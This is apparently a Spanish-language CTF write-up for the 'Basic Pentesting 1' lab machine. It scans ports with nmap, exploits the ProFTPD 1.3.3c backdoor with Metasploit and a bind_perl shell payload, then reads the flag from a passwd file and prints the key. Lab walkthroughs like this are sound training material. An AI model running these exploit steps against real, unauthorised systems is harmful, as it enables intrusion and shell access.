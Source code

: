 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=550&height=80&lines=BASIC_PENTESTING_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/basic-pentesting-1,216/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Basic-pentesting-1?q=%2Fbasic_pentesting_1&lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172961150-48b8c567-3639-4b18-af1d-7e9bc11889f4.png)

Puertos Abiertos: [21,22,80]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,80 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172961507-2b06c2d6-c57e-411d-9b03-bc9c575c8644.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** ProFTPD 1.3.3c

- *Paso 3:* Búsqueda de exploit y configuración con Metasploit.
```
msfconsole
search ProFTPD 1.3.3c
``` 
![3](https://user-images.githubusercontent.com/75953873/172962236-7d4263ac-aa91-470f-9383-1c15028ebffc.png)

Seleccionar exploit:
```
use exploit/unix/ftp/proftpd_133c_backdoor
``` 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![4](https://user-images.githubusercontent.com/75953873/172962461-a82db2a0-7a7a-442a-82cd-fc872ca0e0c6.png)

**IP:** 212.129.29.186

Configurar exploit (RHOSTS):
```
set RHOSTS 212.129.29.186 
```
![5](https://user-images.githubusercontent.com/75953873/172962563-26bb8f18-dc3a-47ee-a92f-246874366a7d.png)

Seleccionar payload:
```
set payload cmd/unix/bind_perl
```
![6](https://user-images.githubusercontent.com/75953873/172962786-257bbd0d-e119-4f03-9857-73b16ad4d200.png)

- *Paso 4:* Ejecutar exploit y obtener acceso.
```
exploit
``` 
![7](https://user-images.githubusercontent.com/75953873/172962925-a7d9f6e4-416b-4423-b2d1-ca5eeebbe729.png)

Localizar fichero `passwd` y extraer flag (key):
```
ls
cat passwd
``` 
![8](https://user-images.githubusercontent.com/75953873/172963153-b2d7dac3-f960-4bfc-ab86-ba80d8b4e449.png)

**Key:** b5fc9e0773f9596578e1ff689109c960

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
